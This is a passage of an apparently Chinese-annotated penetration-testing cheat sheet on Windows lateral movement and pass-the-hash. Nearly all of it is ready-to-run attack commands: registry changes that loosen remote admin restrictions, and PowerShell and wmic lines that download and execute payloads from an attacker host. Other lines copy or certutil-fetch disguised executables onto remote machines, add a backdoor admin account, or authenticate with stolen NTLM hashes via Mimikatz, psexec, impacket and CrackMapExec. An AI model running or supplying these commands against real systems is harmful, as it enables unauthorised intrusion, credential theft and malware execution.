 	允许本地管理组所有成员连接
	>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f  
  ### WMIExec & TheHash
	>powershell -ep bypass
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-WMIExec.ps1'); 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-TheHash/Invoke-TheHash.ps1');
	>Invoke-TheHash -Type WMIExec -Target 192.168.0.0/24 -Domain zone.com -Username godadmin -Hash f1axxxxxxxxxb771
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/383.png)
  ### WMI
	>net use \\1.1.1.1\admin$ /user:"administrator" "password"
	>copy windowsupdate.exe \\1.1.1.1\admin$\dir\
	>wmic /NODE:"1.1.1.1" /user:"administrator" /password:"password" PROCESS call create "c:\windows\dir\windowsupdate.exe" 
	>del \\1.1.1.1\admin$\dir\windowsupdate.exe /F 
	>net use \\1.1.1.1\admin$ /del
  #### wmiexec.py
	https://github.com/SecureAuthCorp/impacket 
	>python wmiexec.py -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09 域名/Administrator@192.168.11.1 "whoami"
	>python wmiexec.py admin@192.168.1.2
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/384.png)
  #### wmiexec.vbs
	半交互式：
	>cscript //nologo wmiexec.vbs /shell 192.168.1.2 admin pass
	单条命令
	>cscript //nologo wmiexec.vbs /cmd 192.168.1.2 domain\admin pass "whoami"
	下载执行
	>wmic /node:192.168.0.115 /user:godadmin /password:password PROCESS call create "cmd /c certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe c:/windows/temp/win.exe & c:/windows/temp/win.exe & certutil.exe -urlcache -split -f http://192.168.0.107/clickme.exe delete"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/385.png)
  #### Powershell
	>wmic /NODE:192.168.3.108 /user:"godadmin" /password:"password" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/xxx.txt');\""
	Invoke-WMIExec
	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1a5b1a3641bec99ff92fe9df700b771 -Command \"net user admin Qwe@123 /add\" -Verbose"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/386.png)

	>powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-WMIExec.ps1');Invoke-WMIExec -Target 192.168.0.115 -Domain Workgroup -Username godadmin -Hash f1xxxxxxxxxxxxx771 -Command \"mshta http://192.168.0.107:8080/YAyAPN6odzbAzKn.hta\" -Verbose"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/387.png)
  ### Psexec
	>psexec.exe -hashes AAD3B435B51404EEAAD3B435B51404EE:A812E6C2DEFCB0A7B80868F9F3C88D09域名/Administrator@192.168.1.1 "whoami"
	>psexec.exe –accepteula \\192.168.1.2 –u admin –p pass cmd.exe 无确认窗
	Msf
	>use exploit/windows/smb/psexec
	>use exploit/windows/smb/psexec_psh(powershell版本)
  ### Psexec-py
  	>python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
  ### Mimikatz
	Windows XP、Vista、2008、7、2008 r2 和2012没有安装KB2871997补丁的机器上，使用NTLM进行PTH
	mimikatz # privilege::debug
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm}
	执行一个文件
	mimikatz # sekurlsa::pth /user:admin /domain:xxx.com /ntlm:{ntlm} /run:powershell.exe
	Windows 8.1 、2012 R2、安装KB2871997的Win 7 、2008 R2和2012上可使用AES KEY进行PTH
	>privilege::debug
	>sekurlsa::ekeys
	>sekurlsa::pth /user:administrator /domain:zone.com /aes128:{key}
  ### pth-winexe
	>pth-winexe -U godadmin%password --system --ostype=1 //192.168.0.115 cmd
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/388.png)
  ### Smbexec
	>python smbexec.py administrator@192.168.0.98
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/389.png)
  ### CrackMapExec
  	>cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
